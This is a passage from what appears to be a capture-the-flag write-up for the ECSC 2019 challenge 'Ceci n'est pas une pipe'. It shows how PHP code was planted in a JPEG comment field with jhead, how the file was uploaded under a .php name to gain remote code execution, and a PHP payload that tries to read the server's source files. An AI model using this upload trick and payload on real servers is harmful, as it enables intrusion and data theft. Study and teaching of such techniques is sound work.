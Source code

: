 ```bash
             Uses same name mangling as '-st' option
  -dc        Delete comment field (as left by progs like Photoshop & Compupic)
  -de        Strip Exif section (smaller JPEG file, but lose digicam info)
  -di        Delete IPTC section (from Photoshop, or Picasa)
  -dx        Deletex XMP section
  -du        Delete non image sections except for Exif and comment sections
  -purejpg   Strip all unnecessary data from jpeg (combines -dc -de and -du)
  -mkexif    Create new minimal exif section (overwrites pre-existing exif)
  -ce        Edit comment field.  Uses environment variable 'editor' to
             determine which editor to use.  If editor not set, uses VI
             under Unix and notepad with windows
```

That little `-ce` looks promising, so let's try it on a `.jpg` file that I rename to `.php`:

```bash
$ mv file.jpg file.php
$ jhead -ce file.php
```

This jumps me into `vim` and I can add a very simple PHP snippet:

```php
<?php echo "DOTAN3"; ?>
```

* Create a new note with this file
* Access the file
* Voilà!

![ECSC 2019 - Ceci n'est pas une pipe - PHP execution](/img/ecsc-2019-ceci-nest-pas-une-pipe-php-exec.png)

From this we know we have remote PHP execution on the server (<abbr title="Remote Code Execution">RCE</abbr>).

## Reconnaissance, pt. 2

Now that we have RCE, let's try and dig further, first by knowing a bit more about the PHP environment.<br>

### LFI attempt

I first tried to read the source code for the challenge and in parallel show the contents of the uploaded file to check if there's some restrcition on paths:

```php
<?php
    echo "DOTAN3 - START";
    echo file_get_contents('../../index.php');
    echo file_get_contents('file.jpg');
    echo "DOTAN3 - END";
?>
```

<small>I always keep some `DOTAN3` markers so that I know my script was executed and if it went til the end.</small>
<small>I am very happy to see that multiline PHP works, it will be much easier to read when my payload starts to grow...</small>
